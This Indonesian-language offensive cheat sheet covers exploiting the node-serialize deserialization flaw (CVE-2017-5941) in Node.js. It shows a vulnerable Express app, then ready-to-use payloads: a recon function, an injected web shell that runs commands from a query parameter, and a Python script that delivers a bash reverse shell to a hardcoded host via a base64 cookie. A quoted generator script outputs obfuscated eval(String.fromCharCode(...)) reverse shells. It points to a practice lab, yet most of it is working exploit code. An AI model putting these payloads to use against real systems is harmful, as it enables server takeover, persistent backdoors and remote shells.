 # Insecure Deserialization: NodeJS
type: #offensive #deserialization  #rce 
techniques: #rce #reverseshell #exfiltration 
target: #nodejs

## Node-Serialize (CVE-2017-5941)
Untrusted data yang dieksekusi oleh fungisi `unserialize()` dapat melakukan Remote Code Execution (RCE).

Vulnerable code:
```js
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);
```

Reconnaissance code `recon.js`,  mencoba eksekusi `ls /` pada sistem operasi:
```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Jika membutuhkan serialization, masukkan pada terminal
```sh
node recon.js

# output
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

Tambahkan ( ) diakhir pada hasil serialization tersebut untuk mengeksekusi code `ls /`. Serialization ini adalah final product untuk disubmit kepada target.
```sh
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

### Eksploitasi 1: Membuat Web Shell
Code
```js
var serialize = require('node-serialize');
var payload = {
    "webShell" : "_$$ND_FUNC$$_function(){const http = require('http'); const url = require('url'); const ps  = require('child_process'); http.createServer(function (req, res) { var queryObject = url.parse(req.url,true).query; var cmd = queryObject['cmd']; try { ps.exec(cmd, function(error, stdout, stderr) { res.end(stdout); }); } catch (error) { return; }}).listen(443); }()"
    }
serialize.unserialize(serialize.serialize(payload))
```

Webshell
```sh
curl http://10.0.2.4:443?cmd=whoami

# output
nodeadmin
```

### Eksploitasi 2: Reverse Shell using Python
```python
import requests
import re
import base64
import sys

url = 'http://192.168.100.133:8000/' # change this

payload = ("require('http').ServerResponse.prototype.end = (function (end) {"
"return function () {"
"['close', 'connect', 'data', 'drain', 'end', 'error', 'lookup', 'timeout', ''].forEach(this.socket.removeAllListeners.bind(this.socket));"
"console.log('still inside');"
"const { exec } = require('child_process');"
"exec('bash -i >& /dev/tcp/192.168.200.5/445 0>&1');" # change this
"}"
"})(require('http').ServerResponse.prototype.end)")

# rce = "_$$ND_FUNC$$_process.exit(0)"
# code ="_$$ND_FUNC$$_console.log('behind you')"
code = "_$$ND_FUNC$$_" + payload

string = '{"username":"TheUndead","country":"worldwide","city":"Tyr", "exec": "'+code+'"}'

cookie = {'profile':base64.b64encode(string)}

try:
    response = requests.get(url, cookies=cookie).text
    print response
except requests.exceptions.RequestException as e:
    print('Oops!')
    sys.exit(1)
```

Opsi lain untuk reverse shell
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

```sh
python nodejsshell.py 127.0.0.1 1337
```

### Referensi
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
https://www.cvedetails.com/cve/CVE-2017-5941/

Coba di:
https://tryhackme.com/room/jason
